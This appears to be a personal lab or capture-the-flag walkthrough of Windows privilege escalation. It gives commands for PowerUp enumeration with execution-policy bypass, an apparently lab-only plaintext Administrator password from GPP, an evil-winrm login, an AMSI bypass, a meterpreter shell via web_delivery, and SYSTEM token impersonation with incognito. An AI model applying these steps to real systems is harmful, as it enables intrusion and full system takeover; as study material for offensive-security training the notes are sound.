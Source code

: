 # Enumeration
---
- Upload the `PowerUp.ps1`file and run `Invoke-AllChecks`:
	- `powershell -ep bypass`
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`
- Saved **GPP credentials** for `Administrator`:
- ![[Pasted image 20250422160305.png]]
- `Administrator : MyUnclesAreMarioAndLuigi!!1!`

# Login using `evil-winrm`:
---
![[Pasted image 20250422160422.png]]

# Getting System
---
- We can bypass `AMSI`using `Evil-winrm`:
	- `Bypass-4MSI`
	- ![[Pasted image 20250422160601.png]]
- Gain `meterpreter`shell using `web_delivery`:
	- ![[Pasted image 20250422160634.png]]
	- ![[Pasted image 20250422160712.png]]
- Load `incognito`and impersonate `NT AUTHORITY\SYSTEM`:
	- `load incognito`
	- `list_tokens -u`
	- `impersonate_token "NT AUTHORITY\\SYSTEM"`
		- ![[Pasted image 20250422160857.png]]